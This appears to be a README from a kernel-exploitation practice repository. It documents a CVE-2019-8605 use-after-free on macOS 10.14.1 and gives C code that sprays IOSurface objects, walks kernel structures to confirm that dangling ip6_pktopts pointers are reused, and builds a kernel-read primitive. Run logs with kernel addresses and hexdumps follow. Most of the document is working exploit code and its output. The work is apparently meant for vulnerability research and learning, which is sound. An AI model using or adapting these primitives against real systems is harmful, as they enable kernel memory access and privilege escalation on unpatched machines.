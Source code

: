 # **IOSurface_kread_observe (CVE-2019-8605)**

## Environment

macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) needed)

## Description

This is similar to the previously written dangling_kptr_reuse repository, but slightly different.

**This repository performs kernel reads using an IOSurface heap-spraying technique.
Here, we check whether dangling pointers are actually reused, and what data ends up stored in the dangling pointers.**

Previously, when we read the README in the parent folder of the repository, we examined how data for spraying IOSurface is created under the title [“OSUnserializeBinary 포맷을 활용한 IOSurface 풍수”](https://github.com/wh1te4ever/xnu_1day_practice/tree/main/CVE-2019-8605#osunserializebinary-%ED%8F%AC%EB%A7%B7%EC%9D%84-%ED%99%9C%EC%9A%A9%ED%95%9C-iosurface-%ED%92%8D%EC%88%98)

The data to be sprayed is loaded into the kernel by the `IOSurface_set_value` function.

To inspect the data loaded into the kernel, we initialize the IOSurface from user space and use the obtained mach_port to access the kernel kobject; from there we sequentially walk structure fields to reach the sprayed dictionary and then the OSArray.

If a dangling kernel pointer obtained from the socket_fd matches the address of an element in the sprayed OSArray, it means the dangling pointer was reused.

I wrote this to verify whether a pointer that I arbitrarily wrote the 8-byte kernel value `0xc0debabe13371338` to (via kwrite64) is read back by the `rk64_via_uaf` function that leverages the vulnerability, and to check whether the dangling pointer is actually reused among the sprayed kernel data.

```c
// obtain userdict from IOSurface
//Thanks @jmpews, https://gist.github.com/jmpews/01b520993a742f72714cd06e40793eed
uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xd0
	uint64_t userspaceValueDicts = kread64(surface + 0xd0);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}

bool is_our_sprayed_OSArray(uint64_t osarray) {
	uint32_t osarray_count = kread32(osarray + 0x20);	// 0x20 = p/x offsetof(OSArray, count)
	uint32_t osarray_capacity = kread32(osarray + 0x24);	// 0x24 = p/x offsetof(OSArray, capacity)
	
	if(osarray_count != 256)	return false;

	for(int i = 0; i < 256; i++) {
		uint64_t osdata_in_osarray = OSArray_objectAtIndex(osarray, i);
		uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
		if(kread64(kbuffer + offsetof(struct ip6_pktopts, ip6po_minmtu)) != 0x41424344) return false;

		//yes, it's our sprayed osarray!
		printf("our sprayed 192bytes OSArray[%d] = 0x%llx\n", i, kbuffer);

		for(int j = 0; j < sizeof(dangling_kptrs) / sizeof(uint64_t); j++) {
			if(kbuffer == dangling_kptrs[j]) {
				INFO("DANGLING KPTR REUSE DETECTED!!! OSArray[%d](0x%llx) == dangling_kptrs[%d](0x%llx)\n", i, kbuffer, j, dangling_kptrs[j]);
				khexdump(dangling_kptrs[j], 0xc0);
				break;
			}
		}
	}

	return true;
}

// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
		dangling_kptrs[i] = get_dangling_ip6_pktopts_kaddr(sockets[i]);
    }
 
	for (int i = 0; i < 128; i++) {
        INFO("dangling_kptr = 0x%llx; obtained from socket_fd=%d\n", dangling_kptrs[i], sockets[i]);
    }
...
	uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("userspaceValueDicts: 0x%llx\n", userspaceValueDicts);

	struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);

	int sprayed_osarray_found_count = 0;
    for (int i = 0; i < dict->count; i++) {
		if(is_our_sprayed_OSArray(dict->items[i].value)) {
			INFO("sprayed OSArray from dict[%u]: 0x%llx\n\n", i, dict->items[i].value);
			sprayed_osarray_found_count++;
		}
  }
	INFO("sprayed_osarray_found_count = %d\n", sprayed_osarray_found_count);
... 
    return buf;
}
```

If you run the actual code in the repository, among the sprayed dictionaries the second one had OSArray[47] pointing to the dangling `inp->in6p_outputopts` address.

The dangling address is **0xffffff802c0d7280**.

At [**0xffffff802c0d7280 + 0x010**] there is an 8-byte kernel address that we wrote intentionally.

Because the 0x10 offset field belongs to the ip6po_pktinfo field of `struct ip6_pktopts`, we can read 20 bytes from that address using the `get_pktinfo` function.

```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dcc7000
get_kbase ret: 0, kbase: 0xffffff801ce00000, kslide: 0x1cc00000
[*] IOSurface_init success, IOSurface_id=0x3
[*] surfRoot: 0xffffff802c4280e0
[*] surfClients: 0xffffff802deb0000
[*] surfClient: 0xffffff802c092e60
[*] surface: 0xffffff802b4fbc00
[*] kptr = 0xffffff80b0dbb000 -> kread64: 0xc0debabe13371338
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=3
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=4
...
[*] spray_IOSurface_call_count: 1
[*] userspaceValueDicts: 0xffffff8029396680
[*] dict 0xffffff8029396680, items 0xffffff80290ca240, count 33, capacity 36
our sprayed 192bytes OSArray[0] = 0xffffff802c0d5b40
our sprayed 192bytes OSArray[1] = 0xffffff802c0d5180
...
[*] sprayed OSArray from dict[1]: 0xffffff80293966c0

our sprayed 192bytes OSArray[0] = 0xffffff802932c480
our sprayed 192bytes OSArray[1] = 0xffffff802bbe7640
our sprayed 192bytes OSArray[2] = 0xffffff802bbe7100
...
our sprayed 192bytes OSArray[47] = 0xffffff802c0d7280
[*] DANGLING KPTR REUSE DETECTED!!! OSArray[47](0xffffff802c0d7280) == dangling_kptrs[0](0xffffff802c0d7280)
=============================
[0xffffff802c0d7280+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
**[0xffffff802c0d7280+0x010] 00 B0 DB B0 80 FF FF FF**  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x060] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x0a0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 00  |  ....DCBA........ 
[0xffffff802c0d7280+0x0b0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 DE  |  ....DCBA........ 
=============================
our sprayed 192bytes OSArray[48] = 0xffffff802dc05600
...
our sprayed 192bytes OSArray[255] = 0xffffff802dc0c3c0
[*] sprayed OSArray from dict[2]: 0xffffff8029396a00

...
[*] sprayed OSArray from dict[32]: 0xffffff8029346f80

[*] sprayed_osarray_found_count = 32
[*] rk64_via_uaf(kptr) = 0xc0debabe13371338
```